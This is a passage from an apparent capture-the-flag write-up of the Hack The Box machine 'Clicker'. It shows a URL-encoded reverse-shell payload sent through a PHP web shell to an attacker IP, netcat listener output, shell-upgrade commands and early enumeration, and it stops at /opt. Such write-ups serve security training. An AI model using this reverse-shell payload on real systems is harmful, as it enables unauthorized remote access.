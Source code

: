 #### Shell

To get a shell, I’ll start `nc` listening on 443 and visit
`http://clicker.htb/exports/top_players_7pbbwdqy.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20/dev/tcp/10.10.14.6/443%200%3E%261%27`:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.232 44604
    bash: cannot set terminal process group (1211): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@clicker:/var/www/clicker.htb/exports$
    

I’ll do the [standard shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    www-data@clicker:/var/www/clicker.htb/exports$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, output log file is '/dev/null'.
    www-data@clicker:/var/www/clicker.htb/exports$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@clicker:/var/www/clicker.htb/exports$
    

## Shell as jack

### Enumeration

#### Home Directories

There’s one other user with a home directory on the box:

    
    
    www-data@clicker:/home$ ls
    jack
    www-data@clicker:/home$ ls jack/
    ls: cannot open directory 'jack/': Permission denied
    

Unsurprisingly, www-data has no access.

I could look at the web stuff in www-data’s home directory, but it doesn’t
prove useful here.

#### /opt

In `/opt` there’s a directory and a shell script:
